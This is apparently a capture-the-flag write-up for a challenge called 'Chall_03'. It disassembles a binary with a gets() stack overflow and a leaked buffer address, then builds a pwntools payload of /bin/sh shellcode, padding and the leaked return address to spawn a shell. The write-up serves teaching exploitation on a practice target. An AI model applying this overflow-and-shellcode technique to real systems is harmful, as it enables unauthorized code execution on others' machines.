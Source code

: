 # Chall_03

## Solution

##### Disassembling

First we run ```checksec --file=a.out``` to see any vulnerabilities and see there is ```No canary found``` and ```NX disabled``` which means we can implant shellcode. 

Then we run ```r2 -Ad a.out``` to disassemble the file in debug mode and then enter ```s main``` to be taken to main and ```Vp``` to open visual.

```assembly
65: sym.vuln ();                                                                                                                 
│           ; var int64_t var_140h @ rbp-0x140                                                                                     
│           0x5624af44e189      f30f1efa       endbr64                                                                             
│           0x5624af44e18d      55             push rbp                                                                            
│           0x5624af44e18e      4889e5         mov rbp, rsp                                                                        
│           0x5624af44e191      4881ec400100.  sub rsp, 0x140                                                                      
│           0x5624af44e198      488d85c0feff.  lea rax, [var_140h]                                                                 
│           0x5624af44e19f      4889c6         mov rsi, rax                                                                        
│           0x5624af44e1a2      488d3d5f0e00.  lea rdi, str.Heres_a_leak_:___p_n    ; 0x5624af44f008 ; "Here's a leak :) %p\n"     
│           0x5624af44e1a9      b800000000     mov eax, 0                                                                          
│           0x5624af44e1ae      e8cdfeffff     call sym.imp.printf     ;[1] ; int printf(const char *format)                       
│           0x5624af44e1b3      488d85c0feff.  lea rax, [var_140h]                                                                 
│           0x5624af44e1ba      4889c7         mov rdi, rax                                                                        
│           0x5624af44e1bd      b800000000     mov eax, 0                                                                          
│           0x5624af44e1c2      e8c9feffff     call sym.imp.gets       ;[2] ; char *gets(char *s)                                  
│           0x5624af44e1c7      90             nop                                                                                 
│           0x5624af44e1c8      c9             leave                                                                               
└           0x5624af44e1c9      c3             ret  

37: int main (int argc, char **argv, char **envp);                                                                               
│           0x5624af44e1ca      f30f1efa       endbr64                                                                             
│           0x5624af44e1ce      55             push rbp                                                                            
│           0x5624af44e1cf      4889e5         mov rbp, rsp                                                                        
│           0x5624af44e1d2      488d3d470e00.  lea rdi, str.She_sellz_sea_shellz_by_the_return_address    ; 0x5624af44f020 ; "She 
│           0x5624af44e1d9      e892feffff     call sym.imp.puts       ;[3] ; int puts(const char *s)                              
│           0x5624af44e1de      b800000000     mov eax, 0                                                                          
│           0x5624af44e1e3      e8a1ffffff     call sym.vuln           ;[4]                                                        
│           0x5624af44e1e8      b800000000     mov eax, 0                                                                          
│           0x5624af44e1ed      5d             pop rbp                                                                             
└           0x5624af44e1ee      c3             ret                                                                                 
            0x5624af44e1ef      90             nop 
```

We notice that the space we're looking for is ```0x140``` which translates to ```320```
When we run the executable it gives us the leak address which is ```0x7fffdcbfafb0``` so since its a 64bit executable we can ```p64(int(0x7fffdcbfafb0))``` which gives us ```b'\xb0\xaf\xbf\xdc\xff\x7f\x00\x00'```. We can then tell our machine that the executable is 64bits with ```context.arch = "amd64"``` and then ```asm(shellcraft.amd64.sh())``` which gives us ```b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'```. We then check the length of the ```shellcraft``` with ```len(outputabove)``` to get ```48```. Now we can craft our payload with ```payload = outputabove + b'a' * (320 + 8 -48) + p64(int(0x7fffdcbfafb0))```. Send it with ```p.sendline(payload)``` and ```p.interactive``` to get shell. 
